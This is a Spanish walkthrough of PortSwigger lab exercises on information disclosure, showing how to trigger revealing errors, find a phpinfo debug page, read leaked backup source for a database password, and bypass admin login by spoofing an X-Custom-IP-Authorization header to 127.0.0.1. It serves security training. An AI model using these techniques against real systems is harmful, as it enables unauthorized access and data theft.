







# Information disclosure vulnerabilities - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/information-disclosure](https://portswigger.net/web-security/information-disclosure)

## Índice


## 1. Lab: Information disclosure in error messages

```
Los mensajes de error detallados de este laboratorio revelan que está utilizando una versión vulnerable de un marco de trabajo de terceros. Para resolver el laboratorio, obtenga y envíe el número de versión de este marco.
```

Para ello vamos a un post cualquiera, como por ejemplo el siguiente:

```bash
https://ac021f2c1ef6afe380996b3f004c0037.web-security-academy.net/product?productId=1
```

Y generamos un error como borrar el valor del parametro **productId**.

```bash
https://ac021f2c1ef6afe380996b3f004c0037.web-security-academy.net/product?productId='
```

 Y generamos el siguiente error.

```bash
Internal Server Error: java.lang.NumberFormatException: For input string: "'"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:65)
	at java.base/java.lang.Integer.parseInt(Integer.java:638)
	at java.base/java.lang.Integer.parseInt(Integer.java:770)
	at lab.data.productcatalog.catalog.DefaultProductCatalogDataSource.getProduct(DefaultProductCatalogDataSource.java:73)
	at lab.display.productcatalog.filter.NoFilterStrategy.getProduct(NoFilterStrategy.java:47)
	at lab.display.productcatalog.page.product.SimpleProductStrategy.handle(SimpleProductStrategy.java:67)
	at lab.display.productcatalog.page.SimpleProductPageStrategy.lambda$handleSubRequest$0(SimpleProductPageStrategy.java:82)
	at net.portswigger.util.Unchecked.lambda$null$3(Unchecked.java:46)
	at net.portswigger.util.Unchecked.uncheck(Unchecked.java:73)
	at net.portswigger.util.Unchecked.lambda$uncheckedFunction$4(Unchecked.java:46)
	at java.base/java.util.Optional.map(Optional.java:265)
	at lab.display.productcatalog.page.SimpleProductPageStrategy.handleSubRequest(SimpleProductPageStrategy.java:77)
	at lab.server.vulnerable.backend.SubHandler.handle(SubHandler.java:41)
	at lab.display.productcatalog.SimpleProductCatalogStrategy.handle(SimpleProductCatalogStrategy.java:75)
	at lab.server.vulnerable.backend.Backend.applyChain(Backend.java:344)
	at lab.server.vulnerable.backend.Backend.lambda$handler$1(Backend.java:289)
	at net.portswigger.util.Unchecked.lambda$null$3(Unchecked.java:46)
	at net.portswigger.util.Unchecked.uncheck(Unchecked.java:73)
	at net.portswigger.util.Unchecked.lambda$uncheckedFunction$4(Unchecked.java:46)
	at java.base/java.util.Optional.flatMap(Optional.java:294)
	at lab.server.vulnerable.backend.Backend.handler(Backend.java:251)
	at lab.server.vulnerable.backend.Backend.handle(Backend.java:239)
	at lab.server.vulnerable.frontend.NoFrontend.handle(NoFrontend.java:37)
	at lab.server.vulnerable.VulnerableApp.handle(VulnerableApp.java:111)
	at lab.server.LabHosts.handle(LabHosts.java:81)
	at lab.server.LabApp.handle(LabApp.java:167)
	at lab.server.LabApp.handle(LabApp.java:51)
	at net.portswigger.http.server.HttpServer$Connection.handleRequest(HttpServer.java:831)
	at net.portswigger.http.server.HttpServer$Connection.runHttp(HttpServer.java:817)
	at net.portswigger.http.server.HttpServer$Connection.run(HttpServer.java:756)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1128)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:628)
	at java.base/java.lang.Thread.run(Thread.java:834)

Apache Struts 2 2.3.31
```

Siendo la solucion:

```bash
Apache Struts 2 2.3.31
```

Enviamos la respuesta y completamos el laboratorio.



## 2. Lab: Information disclosure on debug page

```
Este laboratorio contiene una página de depuración que revela información confidencial sobre la aplicación. Para resolver el laboratorio, obtenga y envíe la variable de entorno SECRET_KEY.
```

Revisando el codigo fuente del laboratorio nos encontramos con lo siguiente:

```html
                        <div>
                            
                            <h3>Eggtastic, Fun, Food Eggcessories</h3>
                            
                            $27.60
                            <a class="button" href="/product?productId=20">View details</a>
                        </div>
                    </section>
                    <!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
                </div>
            </section>
```

Existe una ruta en donde nos podemos topar con un archivo phpinfo.php, que tiene el nombre de **Debug**. Entonces accedemos a la ruta

```
https://ace81f711f47a55d803d2973000a00a8.web-security-academy.net/cgi-bin/phpinfo.php
```

Y ahi dentro buscamos entre toda la informacion interesante el nombre de la variable de entorno **SECRET_KEY**.

```
SECRET_KEY	jkz8p8xls3tgv9z1l5ztffdsgpvv173y
```

Entonces enviamos la solucion y completamos el laboratorio.



## 3. Lab: Source code disclosure via backup files

```
Este laboratorio filtra su código fuente a través de archivos de respaldo en un directorio oculto. Para resolver el laboratorio, identifique y envíe la contraseña de la base de datos, que está codificada en el código fuente filtrado.
```

Buscamos directorios posibles, y nos topamos con que el directorio **backup** existe, y dentro de el encontramos un archivo llamado **ProductTemplate.java.bak** , la ruta sería.

```
https://ac371fb21ec0935c80fa104d00c30038.web-security-academy.net/backup/ProductTemplate.java.bak
```

Luego leyendo el codigo del archivo nos encontramos con lo siguiente.

```java
        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "tdutsjroyh43uwjtfq0gqoohgpd4hynr"
        ).withAutoCommit();
```

Entonces, concluimos que la contraseña de la base de datos es:

```
tdutsjroyh43uwjtfq0gqoohgpd4hynr
```

Entonces, enviamos la solucion y completamos el laboratorio.


## 4. Lab: Authentication bypass via information disclosure

```
La interfaz de administración de este laboratorio tiene una vulnerabilidad de omisión de autenticación, pero no es práctico explotarla sin el conocimiento de un encabezado HTTP personalizado utilizado por el front-end.

Para resolver el laboratorio, obtenga el nombre del encabezado y luego utilícelo para omitir la autenticación del laboratorio. Accede a la interfaz de administración y elimina la cuenta de Carlos.

Puede acceder a su propia cuenta con las siguientes credenciales: wiener:peter
```

Accedemos a la ruta **/admin** y nos encontramos con el siguiente mensaje:



Entonces, lo que haremos será enviar el paquete **GET** a el repeater y cambiar el metodo **GET** por el metodo **TRACE**.



Entre todos los headers que nos devuelve la consulta **TRACE** nos topamos con uno interesante,

```
X-Custom-IP-Authorization: 179.6.192.124
```

Por lo cual en la consulta **GET** anterior, enviaremos la misma solicitud pero enviando este header de **HTTP** cambiando el valor de la IP por 127.0.0.1, que vendría simular el acceso de un usuario de manera local.



Como podemos ver, esto ah funcionado, entonces ahora interceptaremos los paquetes al cargar el panel de administracion desde el navegador agregando el header correcto el cual es:

```
X-Custom-IP-Authorization: 127.0.0.1
```



Y podemos ver que visualizamos el panel de administracion,



Y eliminamos el usuario carlos y completamos el laboratorio.

**NOTA: Para todos los paquetes interceptados agregar el header antes expuesto.**


## 5. Lab: Information disclosure in version control history


